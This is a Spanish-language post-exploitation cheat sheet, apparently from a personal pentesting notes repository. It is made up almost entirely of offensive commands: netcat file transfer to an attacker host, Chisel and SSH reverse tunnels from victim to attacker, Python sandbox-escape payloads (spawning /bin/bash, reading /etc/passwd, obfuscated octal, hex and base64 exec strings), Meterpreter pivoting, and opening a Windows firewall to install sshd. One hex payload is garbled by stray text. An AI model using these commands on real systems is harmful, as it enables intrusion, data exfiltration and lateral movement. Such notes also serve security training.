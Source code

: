 # Postexplotacion

1. [Escalado de privilegios](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#Escalado-de-privilegios)
	* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
	* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)
1. [Transferencia de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#transferencia-de-archivos)
1. [Port Forwarding](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#port-forwarding)
1. [Saltando sandbox](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#saltando-sandbox)
1. [Meterpreter](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#meterpreter)
1. [Pivoteando](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#pivoteando)

## Escalado de privilegios
	* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
	* [Windows]

## Transferencia de archivos

### Netcat

```bash
#envio archivo
nc x.x.x.x port < file.txt
#recibo archivo
nc -lvnp port > file.txt
```

## Port Forwarding

Para mandar un servicio que esta corriendo solo para el host local, hacia hosts remotos (o red local a red externa). Tambien puede servir para servicios que necesitan de GUI y no se pueden levantar desde una shell

### SSH

```bash
ssh -R remotePort:localhost:localPort x.x.x.x
```

### Chisel

```bash
#atacante
$chisel server -p 9999 --reverse
#victima
$chisel client IPAtacante:9999 R:RPort:127.0.0.1:LPort
```

## Saltando sandbox

### Python

#### OS Command execution

```bash
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
```

#### Octal

```bash
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

#### Hexa
```bash
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

#### b64

```bash
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #
```

Py2
```bash
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Meterpreter

	* [Meterpreter]

## Pivoteando

### Meterpreter

```bash
>run autoroute -s IP_red_victima/MASK

#sshutle
```

### General

```
1) transferir Chisel a la maquina victima

2) en maquina atacante
$./chisel server -p 1337 --reverse

3) en maquina victima
$./chisel client 192.168.1.1:1337 R:socks #linux
>chisel.exe client 192.168.1.1:1337 R:socks #windows

4) si todo correcto en maquina atacante recibimos
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

5) agregamos esta linea al /etc/proxychains.conf
socks5 127.0.0.1 1080 #el puerto de 4

6) tiramos comandos a traves de proxychains
#ejemplo
$proxychains nmap -sS IP_victima2
```

### Windows

```powershell
//Descomprimir el archivo
powershell -command "Expand-Archive 'C:\openssh.zip' c:\ruta\"

//Instalar el openSSH
powershell -ExecutionPolicy Bypass -File c:\install-sshd.ps1

//añadir reglas al firewall
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"

//empezar el sshd service
net start sshd

//Desde el host, linux en este caso
ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```